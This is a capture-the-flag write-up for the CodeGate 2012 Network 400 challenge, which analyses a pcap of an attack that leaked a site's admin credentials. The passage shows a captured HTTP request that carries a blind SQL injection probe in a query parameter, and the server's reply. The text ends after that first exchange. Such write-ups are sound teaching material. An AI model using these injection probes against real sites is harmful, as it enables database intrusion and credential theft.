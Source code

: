 ```yaml
---
title: 'CodeGate 2012 Quals &#8211; Network 400'
author: pdah
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358966
categories:
  - 'CTF - CLGT Crew'
tags:
  - '2012'
  - codegate
  - network
---
```

**Challenge**

> Because of vulnerability of site in Company A, database which contains user&#8217;s information was leaked. The file is dumped packet at the moment of attacking.  
> Find the administrator&#8217;s account information which was leaked from the site.  
> For reference, some parts of the packet was blind to XXXX.
> 
> Answer : strupr(md5(database\_name|table\_name|decode(password\_of\_admin)))  
> (&#8216;|&#8217;is just a character) 

<http://repo.shell-storm.org/CTF/CodeGate-2012/Network400/80924D4296FCBE81EA5F09CF60542AE7>

**Summary**

Given a pcap file (again) captured from an attack, we need to find information about database name, table name, administrator’s password in plaintext.  
This challenge requires basic network analysis skill, some knowledge of Blind SQL Injection and password recovery tools.

**Solution**

Browsing the pcap file using wireshark, this is obviously a Blind SQL Injection attack.

<pre class="brush: plain; gutter: false; highlight: [1,15,19,33]; title: ; notranslate" title="">GET /sc/id_check.php?name=music%27%20AND%20%27Ohavy%27=%27Ohavyy HTTP/1.1
Accept-Encoding: identity
Accept-Language: en-us,en;q=0.5
Host: www.cdgate.xxx
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
User-Agent: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.15)
Accept-Charset: ISO-8859-15,utf-8;q=0.7,*;q=0.7
Connection: close

HTTP/1.1 200 OK
Date: Wed, 22 Feb 2012 09:01:54 GMT
Server: Apache/2.2.9 (Ubuntu) PHP/5.2.6-2ubuntu4.1 with Suhosin-Patch mod_ssl/2.2.9 OpenSSL/0.9.8g
X-Powered-By: PHP/5.2.6-2ubuntu4.1
Vary: Accept-Encoding
Content-Length: 0
Connection: close
Content-Type: text/html

